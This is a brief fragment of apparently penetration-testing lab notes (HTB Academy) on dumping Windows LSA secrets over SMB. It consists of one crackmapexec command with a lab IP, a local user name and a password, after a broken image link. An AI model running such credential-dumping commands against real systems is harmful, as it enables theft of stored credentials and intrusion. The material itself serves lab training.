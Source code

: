 #### (LocalAdmin) Dumping hashes over network

LSA:
```shell-session
crackmapexec smb 10.129.111.220 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa